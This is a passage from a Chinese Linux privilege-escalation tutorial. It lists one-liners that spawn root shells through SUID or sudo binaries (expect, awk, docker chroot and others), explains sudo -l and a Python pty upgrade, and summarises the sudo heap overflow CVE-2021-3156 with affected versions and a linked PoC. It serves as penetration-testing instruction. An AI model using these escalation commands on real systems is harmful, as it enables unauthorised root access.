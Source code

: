```shell
expect	    expect -c ‘spawn /bin/sh -p;interact’
env	        env /bin/sh -p
ed	        ed //在底行输入“!/bin/sh -p”
docker	    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
dmesg	      dmesg -H//在底行输入“!/bin/sh -p”
csh	        csh -b
bash	      bash -p
awk	        awk ‘BEGIN {system("/bin/bash -p")}’
perl	      perl exec “/bin/bash”;
```



# 0x05 sudo提权（一类）

sudo是以root权限去运行一个命令，且不需要知道root用户的密码，只需要知道本用户的密码(su则是切换用户，su root需要知道root用户的密码)

当知道用户密码，但无法 sudo bash或者sudo su的时候，可以尝试用其他命令提权

```undefined
sudo -l查看当前用户可以以sudo运行的命令或者二进制文件
```

打法和suid提权一样，只不过换成用"sudo+命令" 的格式来启动

**补充：**

直接在低权shell里面用sudo是不奏效的，这是因为出于安全考虑，linux要求用户必须从终端设备（tty）中输入密码，而不是标准输入（stdin）。换句话说，sudo在你输入密码的时候本质上是读取了键盘，而不是bash里面输入的字符。因此为了能够输入密码，我们必须模拟一个终端设备。

python就有这样的功能。在shell里面输入：

    python -c 'import pty;pty.spawn("/bin/sh")'

就用python建立了一个虚拟终端，然后就可以使用sudo等等命令了。

# 0x06 sudo 漏洞提权-CVE-2021-3156（二类）

## 6.1 概述

当sudo通过 -s 或 -i 命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。

**影响版本**

sudo 1.8.2 - 1.8.31p2

sudo 1.9.0 - 1.9.5p1

**查看sudo版本**
命令：sudo --version

**POC**

https://github.com/worawit/CVE-2021-3156
